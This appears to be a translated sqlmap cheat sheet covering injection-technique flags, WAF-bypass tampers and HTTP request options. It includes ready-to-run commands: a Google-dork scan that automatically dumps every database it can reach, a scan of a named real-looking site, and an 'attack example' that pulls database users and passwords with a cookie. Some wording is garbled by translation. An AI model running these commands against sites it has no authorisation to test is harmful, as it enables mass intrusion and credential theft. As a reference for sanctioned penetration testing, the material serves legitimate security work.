 ------------

**Advanced usage**

* -p name Multiple parameters such as index.php?n_id=1&name=2&data=2020 We want to specify the name parameter to inject
```
sqlmap -g "google syntax" --dump-all --batch #google search injection point automatically runs out all fields, you need to ensure that google.com can access normally
```

* --technique test specifies the type of injection\technology used

* Test all injection techniques by default without parameters
• B: Boolean based sQL blind
• E: based on error sql injection
• U: based on UNION injection
• s: stacked sql injection
• T: Time-based blind

* --tamper bypasses the WEB firewall (WAF) sqlmap by encoding by default with char()
* --tamper plugin directory \sqlmap-dev\tamper
```
sqlmap -u "http:// www.2cto.com /news?id=1" --smart --level 3 --users #smart Intelligent level execution test level
```

**Attack example**
```
sqlmap -u "http://url/news?id=1&submit=submit" --cookie="xxx" --string="surname" --dbms=mysql --user --password
```

**Request**

These options can be used to specify how to connect to the target URL :
```
--data=DATA Data string sent via POsT
--cookie=COOKIE				HTTP Cookie header
--cookie-urlencode			URL encoding generated by cookie injection
--drop-set-cookie			Ignore the set-Cookie header of the response
--user-agent=AGENT			specifies the HTTP User --Agent header
--random-agent				uses a randomly selected HTTP User --Agent header
--referer=REFERER			specifies the HTTP Referer header
--headers=HEADERs			Wrap separate, add other HTTP headers
--auth-type=ATYPE			HTTP authentication type (basic, digest or NTLM) (Basic, Digest or NTLM)
--auth-cred=ACRED			HTTP authentication credentials (username: password)
--auth-cert=ACERT			HTTP certificate (key_file, cert_file)
--proxy=PROXY				Connect to the target URL using an HTTP proxy
--proxy-cred=PCRED			HTTP Proxy Authentication Credentials (Username: Password)
--ignore-proxy				ignores the system default HTTP proxy
--delay=DELAY				The delay between each HTTP request in seconds
--timeout=TIMEOUT			Time to wait for the connection to time out (default is 30 seconds)
--retries=RETRIEs			Time to reconnect after connection timeout (default 3)
--scope=sCOPE				Regular expression for the filter target from the provided proxy log
--safe-url=sAFURL			The url address that is frequently accessed during the test.
--safe-freq=sAFREQ			Test request between visits, giving a secure URL
```
